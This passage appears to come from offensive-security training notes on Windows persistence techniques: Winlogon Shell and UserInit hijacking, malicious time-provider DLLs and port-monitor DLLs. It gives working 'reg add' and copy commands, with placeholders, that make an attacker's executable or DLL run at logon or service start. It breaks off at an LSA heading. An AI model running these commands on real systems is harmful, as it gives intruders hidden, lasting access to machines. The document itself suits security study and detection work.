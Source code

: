 When the user logs into the computer the configuration under the winlogon key has two subkeys which are "Shell" & "UserInit", these two values hold applications that will run in user login and they can hold more than one value.
commands...

    copy "path to exe" c:\windows\system32\
    reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Shell"
    reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Shell" /T REG_SZ /D "explorer.exe," name of the exe" /F
or

    copy "path to exe" c:\windows\system32\
    reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "UserInit"
    reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "UserInit" /T REG_SZ /D "C:\Windows\system32\userinit.exe, "name of the exe""/F

## Time Providers

Time providers ("w32time" service) are used to synchronize time between different machines.
you can add a new time provider with your own dll as a persistence technique.

    note:
    the DLL must export three functions "TimeProvOpen" "TimeProvCommand" "TimeProvClose" and the code can be found documented in MSDN.

commands...

    copy c:\rto\PERS\02.ADMIN\timeprov\timeprov.dll c:\windows\system32
    reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\TimeProv" /t REG_EXPAND_SZ /v "DllName" /d "path to dll" /f
    reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\TimeProv" /t REG_DWORD /v "Enabled" /d "1" /f
    reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\TimeProv" /t REG_DWORD /v "InputProvider" /d "1" /f

## Port Monitors

As in the previous section we can accomplish persistence by adding a new key in the registry for Port monitors that are responsible for extending printer functionality.
  
    note:
      the DLL must export one function that will be called which is "InitializePrintMonitor2"
commands...

    copy "dll path" c:\windows\system32\
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\PortMonitor" /v Driver /t REG_SZ /d "dll name" /f

You can also use win32 API "AddMonitor" to add a new monitor.

## Local Security Authority "LSA"

It manages authentication and logons, Holds Credentials material, and Contains local security policy.
